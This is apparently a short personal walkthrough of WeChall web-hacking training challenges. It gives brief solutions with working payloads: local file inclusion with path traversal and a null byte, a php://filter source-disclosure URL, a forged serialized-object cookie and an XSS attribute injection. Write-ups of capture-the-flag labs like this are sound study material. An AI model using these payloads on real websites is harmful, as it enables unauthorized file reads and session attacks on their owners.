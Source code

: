 # PHP LFI

Use *%00* to eliminate `.html`, and add `../../` to traverse to upper directory: `http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00`

> I decided to skip several boring question…

# Limited Access

Use post request to bypass it

# Limited Access Too

Ban so much options, but we still get **patch**

# PHP 0818

`hex(3735929054)==0xdeadc0de`

# Are you serial?

PHP deserialize bug. Feel free to fill a name, and change serial_user cookie to this:  `O%3A15%3A%22SERIAL_Solution%22%3A0%3A%7B%7D`

# HTMLSpecialChars

I think the answer is `' onclick='alert(1)` but my XSS filter blocks me, so I cannot verify my answer…

# Live RFI

Let’s visit `http://rfi.warchall.net/index.php?lang=solution.php` first.

And then, using php protocol to read file `http://rfi.warchall.net/index.php?lang=php://filter/read=convert.base64-encode/resource=solution.phpWe` add convert.base64-encode to make sure it’s escaped, other wise it will affect *index.php*

# Auth Me

Look at the url, find file in: `http://www.wechall.net/challenge/space/auth_me/find_me/`

# PHP 0816

Step error: `http://www.wechall.net/challenge/php0816/code.php?&hl[0]=vulnerable&mode=hl&src=solution.php`
